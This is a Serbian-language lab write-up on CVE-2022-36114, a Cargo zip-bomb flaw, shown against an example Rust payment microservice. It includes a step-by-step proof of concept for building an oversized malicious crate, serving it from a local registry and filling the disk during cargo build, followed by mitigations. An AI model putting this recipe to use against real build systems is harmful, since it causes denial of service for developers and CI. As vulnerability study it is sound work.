

# 1. Cargo Zip Bomb Disk Exhaustion

## 1. Uvod
Payment Adapter je Rust mikroservis koji koristi Cargo za upravljanje zavisnostima iz crates.io ili alternativnih registy-ja. Cargo komponenta toolchain-a je ključna za build i dependency resolution procese.

Ranjivost u Cargo komponenti omogućava disk exhaustion napad preko specijalno kreiranih paketa. To dovodi do DoS napada na mašinama.

U nastavku je definisana eksploatacija CVE-2022-36114 u kontekstu Payment Adapter-a i pokazano je zašto je ranjiva na jednostavne napade.

## 2. Definicija pretnje: Zip Bomb Disk Exhaustion

U kontekstu Payment Adapter-a, Zip Bomb Disk Exhaustion označava situaciju u kojoj:
- napadač upload-uje maliciozan crate na alternate registry
- developer pokrene ***cargo build*** ili ***cargo update*** koji skida paket
- Cargo ekstraktuje arhivu koja "eksplodira" u gigabajte podataka, iscrpljujući disk prostor

Zip Bomb je napad koji:
- ne zahteva autentifikaciju ili eskalaciju privilegija
- koristi legitimni Cargo workflow
- manifestuje se kao OOM (Out of memory) ili disk full, bez logova o malveru

## 3. Generički obrazac eksploatacije u Cargo-u
Napad se manifestuje kroz sledeći obrazac:
1. Napadač kreira zip bombu: mali tar.gz (kb) koji ekstraktuje više od 10GB fajlova (npr. rekurzivno duplirani fajlovi)
2. Objavljuje kao crate v1.0.0 na alternate registry
3. Modifikuje Cargo.toml Payment Adapter-a
4. Pokretanje ***cargo build***

## 4. Početna konfiguracija Payment Adapter-a
Payment Adapter koristi standardni Cargo.toml sa zavisnostima puput ***async-stripe***, ***tokio***. Ako se doda nesigurna zavisnost:
```
[source.crates-io-proxy]
replace-with = 'vendored-sources'

[source.vendored-sources]
directory = 'vendor-sources'  # Napadač kontrolisani dir
```

## 5. Zašto je Cargo ranjiv?
Cargo ne limitira ekstrakciju iz tar.gz, dozvoljavajući "bomb" pakete. Pazment Adapter sa ograničenim diskom je idealna meta.

## PoC

### 1. Priprema (Ubuntu, Rust 1.63)
```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh -s -- -y --default-toolchain 1.63.0
```

### 2. Bomb crate
```bash
mkdir bomb-crate && cd bomb-crate && cargo init --lib
# src/lib.rs: pub fn dummy() {}
dd if=/dev/zero bs=1M count=1 of=dummy.txt
mkdir bomb_payload && cp dummy.txt bomb_payload/
for i in {1..10}; do find bomb_payload -type f | xargs -I FILE cp FILE FILE.$i; done # ova linija je stavljena u script.sh pa se poziva za bash script.sh
cargo package
cd target/package/
mkdir unpack && tar xf bomb-crate-0.1.0.crate -C unpack/
cp -r ../../bomb_payload/* unpack/
tar czf bomb-malicious.crate -C unpack .
```


Velicina ***bomb_payload-a*** za ovaj PoC je bio 1.1GB, u praksi ide i preko 10GB.


### 3. Local registry
```bash
cd ~/Desktop && mkdir local-reg/src/registry/bomb-crate-0.1.0
cp bomb-crate/target/package/bomb-malicious.crate local-reg/src/registry/bomb-crate-0.1.0/
cd local-reg && git init && echo '{"dl": "..."}' > config.json && git add . && git commit -m init
```

### 4. Victim projekat
```bash
mkdir payment-adapter && cd payment-adapter && cargo init
```

U Cargo.toml dodamo:
```
[dependencies]
bomb-crate = "0.1.0"
```

U .cargo/config.toml dodamo:
```
[source.crates-io]
replace-with = 'local-reg'
[source.local-reg]
git = 'file:///home/ubuntu/Desktop/local-reg'
```

### 5. Napad
```bash
df -h ~ # Dokaz da je na disku manje od 1.1GB
```


```bash
cargo +1.63 build
```



### 6. Rezultat
```bash
error: failed to extract package: No spaceleft on device (os error 28)
```

## 7. Mitigacija pretnje Zip Bomb-a
1. ***Glavna mitigacija***: Nadograditi na Rust 1.64+
2. ***Dodatna mitigacija***: Disk quota i safe registries
```
Uvedi disk quota u Docker CI (npr. --storage-opt size=5GB)
```
```
Koristi samo crates.io sa cargo audit
```

## 8. Zaključak
Zip Bomb u Cargo-u predstavlja lak DoS napad za Rust projekte poput Payment Adapter-a, eksploatišući poverenje u registries.

